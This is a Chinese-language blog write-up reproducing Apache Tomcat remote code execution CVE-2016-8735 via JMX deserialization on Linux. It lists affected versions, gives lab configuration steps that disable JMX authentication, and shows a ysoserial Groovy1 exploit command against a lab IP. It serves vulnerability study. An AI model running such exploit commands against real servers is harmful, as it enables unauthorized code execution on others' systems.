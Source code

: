 ```yaml
---
layout:     post
title:      "Apache Tomcat Remote Code Execution(CVE-2016-8735)"
date:       2016-12-10
categories: [Tomcat, Remote Code Execution, Java Security]

---
```


### Versions Affected

```
Apache Tomcat 9.0.0.M1 to 9.0.0.M11
Apache Tomcat 8.5.0 to 8.5.6
Apache Tomcat 8.0.0.RC1 to 8.0.38
Apache Tomcat 7.0.0 to 7.0.72
Apache Tomcat 6.0.0 to 6.0.47
Earlier, unsupported versions may also be affected.
```

### Description

​	这个漏洞实质还是JMX反序列化漏洞，tomcat同样也用了JmxRemoteLifecycleListener这个监听器，但是tomcat在Oracle修复这个漏洞后自己没有及时更新，导致了反序列还依旧存在。网上搜了很多关于该漏洞的分析文章基本上都是0c0c0f牛在微信公众号里文章的转载或是变种，也基本都是在window系统上做的测试，所以也就想在linux也测试一下，也就有了这篇文章，大牛们勿喷呐= =、。

### Test Environment

> Linux Ubuntu server x86
>
> **Apache Tomcat** (http://archive.apache.org/dist/tomcat/tomcat-8/v8.0.36/bin/apache-tomcat-8.0.36.tar.gz)
>
> **catalina-jmx-remote** (http://archive.apache.org/dist/tomcat/tomcat-8/v8.0.36/bin/extras/catalina-jmx-remote.jar)  //添加至%TOMCAT_HOME%/lib/目录下
>
> **Groovy** (https://repo1.maven.org/maven2/org/codehaus/groovy/groovy/2.3.9/groovy-2.3.9.jar)    //添加至 %TOMCAT_HOME%/lib/目录下
>
> **POC** (https://github.com/frohoff/ysoserial)

### Test Steps

1. 修改 tomcat server.xml 配置文件，添加以下内容：

   ```xml
   <Listener className="org.apache.catalina.mbeans.JmxRemoteLifecycleListener" rmiRegistryPortPlatform="10001" rmiServerPortPlatform="10002" />
   ```

2. 修改 tomcat/bin 目录下 catalina.sh ，在# ----- Execute The Requested Command --------处添加以下内容：

   ```basic
   # ----- Execute The Requested Command -----------------------------------------
   CATALINA_OPTS="$CATALINA_OPTS
   -Dcom.sun.management.jmxremote
   -Dcom.sun.management.jmxremote.ssl=false
   -Dcom.sun.management.jmxremote.authenticate=false  //设为无账号密码认证
   -Djava.rmi.server.hostname=192.168.64.7"  //设置hostname为服务器ip地址，否则JMX无法进行远程访问
   ```

3. ./startup.sh启动tomcat服务

4. 执行POC

   ```
   java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit 192.168.64.7 10001 Groovy1 "touch /tmp/tomcat_test"
   ```

   ![Tomcat-CVE-2016-8735](http://reverse-tcp.xyz/static/img/posts/Tomcat-CVE-2016-8735.png)

   -----

   ​	关于linux配置tomcat运行远程监控（JMX）这里有个坑，网上搜到的绝大多数关于linux下tomcat jmx配置的文章，都使用了只修改catalina.sh为以下内容的方法，包括[Zabbix Wiki](https://www.zabbix.com/documentation/2.0/manual/config/items/itemtypes/jmx_monitoring)也是推荐的这种方式：

   ```basic
   CATALINA_OPTS="$CATALINA_OPTS 
   -Dcom.sun.management.jmxremote
   -Dcom.sun.management.jmxremote.port=9999
   -Dcom.sun.management.jmxremote.ssl=false
   -Dcom.sun.management.jmxremote.authenticate=false
   -Djava.rmi.server.hostname=192.168.64.7"
   ```

   ​	但就这种方式而言，需要注意的是 catalina.sh 中提供的默认变量名 JAVA_OPTS 和 CATALINA_OPTS。由于 JAVA_OPTS 所添加的参数会在 tomcat 开启和关闭时都运行，所以如果你把 `Dcom.sun.management.jmxremote.port=9999` 写在 JAVA_OPTS 中时，关闭服务的时候是会报错的，而且在该漏洞场景中攻击利用也是不会成功的，因此需要注意的是在平常渗透过程当中若在linux下遇到了该漏洞，利用不成功也是正常的。

   -----

   ### Referer

   [http://seclists.org/oss-sec/2016/q4/502](http://seclists.org/oss-sec/2016/q4/502)

   微信公众号：0c0c0f

   ​